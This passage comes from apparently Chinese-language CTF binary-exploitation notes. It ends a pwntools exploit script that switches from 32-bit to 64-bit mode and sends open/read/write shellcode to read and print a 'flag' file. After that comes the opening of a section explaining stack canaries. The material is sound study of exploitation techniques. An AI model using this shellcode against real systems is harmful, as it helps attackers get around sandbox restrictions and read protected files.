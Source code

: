         log.info('read flag')
        shellcode32 = 'jmp 0x33:0x0804a007'
        #len(shellcode32) == 7
        shell32 = asm(shellcode32)
        #open read write exit
        shellcode64 = '''
        BITS 64
        call cxk
        db 'flag', 0
        cxk:
        pop rdi
        xor rsi, rsi
        mov rax, 2
        syscall
        mov rdi, rax
        mov rax, 0
        mov rsi, 0x0804a200
        mov rdx, 0x10
        syscall
        mov rdx, rax
        mov rdi, 1
        mov rsi, 0x0804a200
        mov rax, 1
        syscall
        mov rdi, 0
        mov rax, 60
        syscall
        '''
        
        f = open('shell64.asm', 'wb')
        f.write(shellcode64)
        f.close()
        os.popen('nasm -o shell64 shell64.asm')
        
        f = open('shell64', 'rb')
        shell64 = f.read()
        f.close()
        
        shellcode = shell32 + shell64
        r.sendline(shellcode)
        r.interactive()
        ```
    
        





- #### Canary

  - ##### 原理

    在栈溢出的高位区域尾部插入一个值，若通过栈溢出覆盖返回地址必先覆盖Canary，当函数返回时检测canary的值是否发生改变，以此判断栈溢出是否发生

    ![17](https://raw.githubusercontent.com/AiDaiP/images/master/pwn/17.png)
